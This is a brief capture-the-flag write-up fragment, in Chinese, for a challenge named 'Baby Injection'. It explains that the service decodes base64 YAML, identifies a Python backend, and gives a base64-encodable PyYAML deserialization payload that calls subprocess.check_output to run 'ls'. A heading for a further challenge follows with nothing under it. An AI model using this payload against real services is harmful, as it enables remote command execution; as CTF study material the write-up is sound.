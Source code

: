

### Baby Injection

可以知道是yaml
`http://172.105.121.246:5990/eWFtbDogSXRzIHlhbWwgYnJvLCBoYWNrIG1lIGlmIHlvdSBjYW4hISE=`

![image](/images/2025/01/SkV1F8nDkg.png)

也能大概確定python框架

![image](/images/2025/01/rypVFIhwJe.png)

把payload base64 encode
`yaml: !!python/object/apply:subprocess.check_output ["ls"]`

![image](/images/2025/01/Syuwt8nDkg.png)

### Luana
